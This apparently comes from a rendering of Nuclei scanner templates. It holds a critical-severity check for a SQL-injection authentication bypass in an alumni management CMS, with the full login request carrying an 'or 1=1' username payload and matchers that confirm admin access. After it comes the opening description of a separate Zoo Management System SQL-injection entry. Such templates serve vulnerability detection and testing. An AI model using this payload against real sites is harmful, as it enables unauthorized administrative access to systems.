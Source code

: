 - severity - critical
- tags - sqli,auth-bypass,cms,edb,alumni

## Requests

### Step - 1

```
POST /admin/ajax.php?action=login HTTP/1.1
Host: {{Hostname}}
Content-Type: application/x-www-form-urlencoded

username=admin'+or+'1'%3D'1'%23&password=nuclei

```

### Step - 2

```
GET /admin/index.php?page=home HTTP/1.1
Host: {{Hostname}}

```

### Matchers

**Type - word**

- part - body
- words
  1. Welcome back Admin!
  2. Alumni List
- condition - and

**Type - word**

- part - body
- words
  1. #login-form
- negative - True

**Type - status**

- status
  1. 200

---

# Zoo Management System 1.0 - SQL Injection

## Description

- Zoo Management System 1.0 contains a SQL injection vulnerability via the username parameter on the login page. An attacker can possibly obtain sensitive information from a database, modify data, and execute unauthorized administrative operations in the context of the affected site.
